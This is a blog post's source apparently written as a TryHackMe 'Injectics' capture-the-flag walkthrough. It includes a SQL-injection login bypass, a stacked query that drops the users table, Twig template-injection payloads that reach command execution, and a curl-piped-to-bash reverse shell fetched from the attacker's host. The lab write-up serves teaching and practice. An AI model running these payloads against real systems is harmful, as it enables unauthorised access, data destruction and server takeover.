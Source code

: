 ```yaml
---
layout: post
title:  "Injectics (THM)"
date:   2025-08-28 21:10:20 -0400
author: robo.uzi
tags: [TryHackMe, ctf]
---
```

{% raw %}
## Initial Access

`nmap -p- -T5 -vv 10.10.61.166 -oN injecticsfullnmap.txt`

`nmap -sVC -p 22,80 -vv -T4 10.10.61.166 -oN injecticsnmap.txt`: 
```shell
PORT   STATE SERVICE REASON  VERSION  
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))  
| http-cookie-flags:    
|   /:    
|     PHPSESSID:    
|_      httponly flag not set  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-title: Injectics Leaderboard  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```shell
ffuf -u http://10.10.61.166/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -e .txt .php -t 60
flags         [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 216ms]  
css           [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 221ms]  
js            [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 223ms]  
javascript    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 221ms]  
vendor        [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 224ms]
```
There is also `/login.php`, `/functions.php`, and `/adminLogin007.php`. 

In the source there is the comment: `<!-- Website developed by John Tim - dev@injectics.thm-->`.

I also see the comment: `<!-- Mails are stored in mail.log file-->`.

Add `injectics.thm` to `/etc/hosts`.

Visiting `http://injectics.thm/mail.log` I get a note:
```html
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.
```
It hints at the table `users` and the "Injectics service". It also contained these credentials:
```html
Here are the default credentials that will be added:
| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |
```

These creds dont seem to work. It says the Injectics service will insert these into the database every minute. Maybe I need to delete an entry from the database somehow to trigger it. 

On `/functions.php` I can send these parameters: 
```t
username=dev%40injectics.thm&password=password&function=login
```
In response: `{"status":"error","message":"Invalid email or password"}`.

On `/adminLogin007.php` I can send these paramters: 
```t
mail=dev%40injectics.thm&pass=password
```
In response: `Invalid email or password.`

I spot this in the js for the `/login.php` also:
```javascript
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
            for (let keyword of invalidKeywords) {
                if (username.includes(keyword)) {
                    alert('Invalid keywords detected');
                   return false;
```
This is client side js that is bypassed easily using burpsuite or similar.

After some testing I find this: `username=a' || 1=1-- -&password=password&function=login`. This payload bypassed authentication. I proxy the request, login as dev, and land at `http://injectics.thm/dashboard.php`.

Now I can edit the scoreboard on the site. At `http://injectics.thm/edit_leaderboard.php?rank=1&country=USA` I test more payloads for how I change the database somehow. This should populate it with admin creds I can use. 

I capture the request for updating the leaderboard. Eventually I trigger a table to be dropped with:
`rank=1&country=&gold=23; drop table users -- -&silver=22&bronze=12345`. After I refresh it says:
```html
Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

Now I can login with `superadmin@injectics.thm:superSecurePasswd101`. As admin on the dashboard I get the first flag.

Now I have access to the `Profile` tab where I can update the email, first name, and last name. When I visit the dashboard I see `Welcome admin`. Seems like my first name is reflected on the page. I change the first name to confirm it. 

I test for SSTI. Usually the basic payload is `{{7*7}}` or similar. I enter `{{7*7}}` as the first name, update it, and return to the dashboard. I see: `Welcome, 49!`. It works!

I go to [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) to search for payloads. Through testing I think it is `Twig (PHP)` SSTI. For example `{{7*'7'}}` would result in `49` in Twig, and `7777777` in Jinja2. I test it and get `49`.

I enter `{{['id']|filter('system')}}` and get the error: 
```html
The callable passed to "filter" filter must be a Closure in sandbox mode in "__string_template__8a0a34f3ef7bb4027995c4af464e338fdb11b6a04e25524a117eb8284867d004" at line 1.
```
I get errors from almost everything I try. Now Im reffering to [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md#twig---code-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md#twig---code-execution).

When I run `{{['id']|sort('passthru')}}` I see `Welcome, Array!`. This is doing something. There is no error. Running `{{['id',""]|sort('passthru')}}` with the extra argument causes the `id` command results to be reflected. This is because execution only happens when `sort` actually invokes the callback, which requires at least two arguments. 

I go to revshells.com and get a python reverse shell. I save to a file, host it on a server, curl it, and pipe it to bash. I set my listener (`nc -lvnp 4444`) and use this payload: `{{['curl http://10.13.66.123:8000/shell|bash',""]|sort('passthru')}}`.

I catch the shell and run `cat /var/www/html/flags/5d8a-redacted-9f48.txt` to get the final flag. The end!!
{% endraw %}
___
